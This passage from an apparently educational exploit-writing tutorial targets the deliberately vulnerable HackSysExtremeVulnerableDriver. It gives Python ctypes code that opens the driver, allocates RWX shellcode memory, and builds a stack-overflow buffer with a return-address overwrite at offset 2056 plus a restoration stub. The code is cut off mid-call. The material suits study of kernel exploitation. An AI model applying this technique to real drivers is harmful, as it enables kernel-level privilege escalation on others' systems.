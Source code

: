 #### With Overflow

`StackOverflowIoctlHandler` --> `TriggerStackOverflow` --> `ret` to shellcode then `add rsp, 0x28` then `ret` to --> `IrpDeviceIoCtlHandler`

All we really did is substitute our shellcode for the end of `StackOverflowIoctlHandler` and then run that function's commands at the end of our shellcode to restore execution. Let's add some shellcode to our script, use `VirtualAlloc` to mark it with RWX permissions, and send some NOPs along with our restoration stub and everything should work out well! Also, you'll see the offset here to overwrite the `ret` address is `2056`. Spoiler alert. 

Our exploit code now looks like this:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x90" * 100                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

addr = struct.pack("<Q", addr)

buf = create_string_buffer("A"*2048 + "B"*8 + addr)

result = kernel32.DeviceIoControl(
```